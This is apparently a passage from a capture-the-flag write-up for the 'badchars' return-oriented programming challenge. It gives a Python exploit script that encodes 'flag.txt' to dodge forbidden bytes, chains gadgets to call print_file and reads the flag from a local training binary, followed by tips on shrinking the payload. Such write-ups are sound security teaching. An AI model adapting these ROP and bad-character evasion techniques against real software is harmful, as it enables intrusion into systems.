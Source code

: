 ```python
# build payload
payload = b'A' * 40
fname = encode_str(b'flag.txt')
payload += write_str(write_addr, fname)
payload += decode_str(write_addr, fname)
# call print_file
payload += p64(pop_rdi)
payload += p64(write_addr)
payload += p64(print_file_addr)

# check if payload is valid
for i in range(len(payload)):
    if payload[i] in invalid_bytes:
        print('invalid char', '"'+chr(payload[i])+'"', 'at index', i)
        exit()

# send payload + receive flag
io = process('./badchars')
io.send(payload)
io.recvuntil(b'Thank you!\n')
flag = io.recvline()
log.success(flag.decode('utf-8'))
```

![flag](/images/badchars/x64-flag.png)

### Extra Credit
If you've made it this far in the series then you're
probably comfortable chaining gadgets together. From
here on out we'll be working with various constraints
such as sparse gadgets or a limited stack size. Depending
on the conditions, the size of our payload may matter!

The first solution is simpler to code, but we could
make the size of our payload smaller. The largest 
amount of space could be saved by not encoding every
byte of the string, but only encoding the forbidden
characters! A smaller optimization (24 bytes) could
be applied to our decoding function. Since `r14` is
set to the same value during decoding, we only need
to set it once during the whole decoding process!
